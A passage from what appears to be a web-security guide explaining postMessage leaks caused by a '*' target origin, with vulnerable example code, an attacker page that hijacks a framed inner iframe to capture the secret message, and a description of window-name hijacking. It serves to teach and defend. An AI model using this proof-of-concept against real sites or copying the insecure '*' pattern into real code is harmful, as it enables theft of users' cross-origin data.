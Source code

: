 {% code title="https://example.com" %}
```html
<iframe id="iframe" src="https://inner.example.com"></iframe>
<script>
  iframe.onload = () => {
    // Expects to send to inner.example.com, but wrongly uses "*" to send to any origin
    iframe.contentWindow.postMessage("secret", "*");
  }
</script>
```
{% endcode %}

<pre class="language-javascript" data-title="https://inner.example.com"><code class="lang-javascript"><strong>onmessage = (e) => {
</strong>  console.log("INNER", e.data);
};
</code></pre>

An attacker can abuse this by using the [`window.frames`](https://developer.mozilla.org/en-US/docs/Web/API/Window/frames) property to change the location of this inner iframe, and intercept the secret message:

<pre class="language-html" data-title="https://attacker.com"><code class="lang-html">&#x3C;iframe id="iframe" src="https://example.com">&#x3C;/iframe>
&#x3C;script>
  // After example.com has loaded and the frame was created, redirect it to our page
  iframe.onload = () => {
    const inner = iframe.contentWindow.frames[0];
<strong>    inner.location = "about:blank";  // Hijack the inner iframe
</strong>  	
    const interval = setInterval(() => {
      inner.origin;  // When it becomes same-origin
      clearInterval(interval);
<strong>      inner.onmessage = (e) => {  // Listen for the leaked message
</strong>        alert(e.data);
      }
    })
  }
&#x3C;/script>
</code></pre>

{% embed url="https://web.archive.org/web/20201227141548/https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/" %}
Real-world example of this vulnerability in docs.google.com
{% endembed %}

{% hint style="info" %}
**Note**: this is _only possible_ if you can _iframe the parent page_, because through a regular top-level window reference, you cannot change the location of inner iframes.
{% endhint %}

### Window name hijacking

Instead of iframes, if the _**name**_**&#x20;of a window** in `window.open()` can be predicted, an attacker can prepare an existing window with the same name that will be reused, effectively **hijacking** it! If you open the target from your page and create a same-origin iframe on your page with a specific name, it will find that first and rewrite the location of the iframe, returning a reference to it. Importantly, this iframe is still on the attacker's page.
